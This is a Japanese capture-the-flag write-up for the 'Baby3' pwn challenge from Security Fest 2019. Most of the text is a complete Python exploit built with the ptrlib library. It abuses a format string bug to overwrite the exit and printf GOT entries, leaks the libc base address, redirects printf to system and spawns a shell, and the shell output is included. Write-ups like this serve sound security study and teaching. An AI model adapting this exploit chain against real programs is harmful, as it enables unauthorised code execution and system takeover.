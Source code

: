 # [pwn 287pts] Baby3 - Security Fest 2019
64ビットでSSPが有効です。
```
$ checksec -f baby3
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable  FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   70 Symbols     Yes	0		4	baby3
```

今度はFSBがあります。
exitが呼ばれているのでこれをmainに変えてprintfをsystemに変えて...といういつもの手順でシェルを取りましょう。

この問題を機にptrlibにx64 FSBで複数アドレスに同時書き込みできる機能を追加しました。
```python
from ptrlib import *

libc = ELF("./libc.so.6")
elf = ELF("./baby3")
sock = Process("./baby3")
delta = 0xe7

# Stage 1: exit-->_start
payload = fsb(
    pos = 6,
    writes = {elf.got("exit"): elf.symbol("_start") & 0xffff},
    bs = 2,
    null = False,
    bits = 64
)
sock.recvuntil("input: ")
sock.sendline(payload)

# Stage 2: leak libc base
sock.recvuntil("input: ")
sock.sendline("%25$p")
addr_libc_start_main = int(sock.recvline(), 16)
libc_base = addr_libc_start_main - libc.symbol("__libc_start_main") - delta
dump("libc base = " + hex(libc_base))

# Stage 3: printf-->system
payload = fsb(
    pos = 6,
    writes = {elf.got("printf"): libc_base + libc.symbol("system")},
    bs = 2,
    null = True,
    bits = 64
)
sock.recvuntil("input: ")
sock.sendline(payload)

# Stage 4: get the shell!
sock.sendline("/bin/sh\x00")

sock.interactive()
```

できました。
```
...
sh: 1: input:: not found
id
uid=1000(ptr) gid=1000(ptr) groups=1000(ptr),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare),999(docker)
[ptrlib]$
```

# 感想
ptrlib > pwntoolsの日も近い...！？